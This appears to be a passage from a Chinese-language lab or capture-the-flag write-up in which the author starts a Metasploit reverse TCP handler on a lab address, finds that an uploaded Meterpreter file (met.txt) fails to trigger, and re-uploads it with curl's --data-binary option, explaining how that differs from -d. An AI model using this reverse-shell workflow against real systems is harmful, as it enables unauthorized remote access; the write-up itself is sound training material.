 ```
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.14:443 
```

触发失败了：

![截图](f31da97bca2a786e7b62ec2ea42528fc.png)

查看上传的met.txt文件：

![截图](a4e5a794fc17e0bf30d7fca24f6e3fb1.png)

发现格式有问题，重新上传，这次用于保留端行和其他控制字符：--data-binary。

> --data-binary：告诉curl将数据视为二进制数据，而不进行任何特殊处理。这意味着上传的数据将按照原始格式进行传输，不会对其进行字符编码等处理。
> 
> -d：告诉curl使用标准的URL编码格式将数据发送到服务器。这意味着上传的数据将按照URL编码格式进行传输，其中一些特殊字符可能会被转义。

![截图](c3b5776739327438a4b1bf3ed1f0c511.png)
